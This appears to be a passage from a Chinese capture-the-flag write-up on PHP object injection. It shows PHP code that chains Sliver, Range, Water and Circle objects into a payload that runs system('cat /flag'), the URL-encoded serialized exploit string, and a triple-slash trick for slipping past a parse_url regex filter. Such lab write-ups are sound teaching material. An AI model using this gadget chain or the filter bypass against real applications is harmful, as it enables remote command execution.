 ```
    public function __construct()
    {
        $this->dash = "system('cat /flag');";
    }
}

class Range{
    public $horis;
    public $link;

}

class Sliver{
    public $secret;
    public $resty;

}

/*$data = @$_GET['data'];
if(isset($data)){
    $url = parse_url($_SERVER['REQUEST_URI']);
    parse_str($url['query'],$q);
    foreach($q as $v)
    {
        if(preg_match("/^O/i",$v))
        {
            die('YOU ARE hacker!!!');
            exit();
        }
    }
    unserialize($data);
} */

$h = new Sliver();
$h->secret = new Range();
$h->secret->link = new Water();
$h->secret->link->waterfall = new Circle();
echo urlencode(serialize($h)); 
?>
```



```
O%3A6%3A%22Sliver%22%3A2%3A%7Bs%3A6%3A%22secret%22%3BO%3A5%3A%22Range%22%3A2%3A%7Bs%3A5%3A%22horis%22%3BN%3Bs%3A4%3A%22link%22%3BO%3A5%3A%22Water%22%3A1%3A%7Bs%3A9%3A%22waterfall%22%3BO%3A6%3A%22Circle%22%3A2%3A%7Bs%3A6%3A%22daemon%22%3BN%3Bs%3A7%3A%22%00%2A%00dash%22%3Bs%3A20%3A%22system%28%27cat+%2Fflag%27%29%3B%22%3B%7D%7D%7Ds%3A5%3A%22resty%22%3BN%3B%7D
```

利用三///绕过

 ![image-20220911212104391](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202209112121451.png?x-oss-process=hzy)

